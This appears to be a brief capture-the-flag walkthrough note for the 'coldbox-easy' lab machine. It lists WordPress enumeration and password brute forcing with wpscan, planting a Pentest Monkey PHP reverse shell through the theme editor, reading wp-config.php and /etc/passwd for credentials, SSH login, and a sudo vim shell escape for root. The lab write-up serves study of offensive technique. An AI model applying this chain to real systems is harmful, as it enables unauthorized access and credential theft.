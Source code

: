 ```yaml
---
date: 2024-06-19
author: mrashco
title: coldbox-easy
tags: 
categories: 
series:
---
```


80:http,4512:ssh

http
	- wordpress
	- ffuf:/******/
	- users:****,****,*****

msfconsole -q
- setg RHOSTS
- use wordpress_ghost_scanner, wordpress_xmlrpc_dos, wordpress_xmlrpc_login, wordpress_pingback_access

wpscan --url http://$ip -e vp,vt,u

wpscan --url http://$ip --passwords $wordlist
- *****:*********
- Appearance > Editor > PHP Pentest Monkey Rev Shell

Initial Access www-data
- cat /var/www/html/wp-config.php
	- DB_NAME: ******, DB_USER:*****, DB_PASSWORD:************
- cat /etc/passwd/ 
- ssh c0ldd@$ip -p 4512
- cat user.txt

PrivEsc
- sudo -l
- sudo vim, :sh